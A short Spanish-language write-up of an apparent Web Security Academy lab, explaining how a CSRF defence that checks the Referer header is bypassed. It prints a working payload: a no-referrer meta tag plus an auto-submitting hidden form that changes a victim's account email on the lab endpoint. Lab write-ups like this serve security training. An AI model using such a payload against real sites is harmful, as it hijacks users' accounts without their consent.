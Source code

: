 ![](/img2/Pasted%20image%2020250802211252.png)

> Vemos que se está verificando si la cabecera 'Referer' contiene el mismo origen.

![](/img2/Pasted%20image%2020250802211128.png)

> Para deshabilitar el uso de la cabecera 'Referer' podemos hacer uso de la etiqueta 'meta'.

- Injection

```html
<meta name="referrer" content="no-referrer">

<form class="login-form" name="change-email-form" action="https://0abb003b0399355e809c03a400b00098.web-security-academy.net/my-account/change-email" method="POST">
    <input  type="hidden" name="email" value="csrf@csrf.com">
</form>

<script>
    document.forms[0].submit();
</script>
```

## CSRF con validación Referer vulnerable || CSRF with broken Referer validation
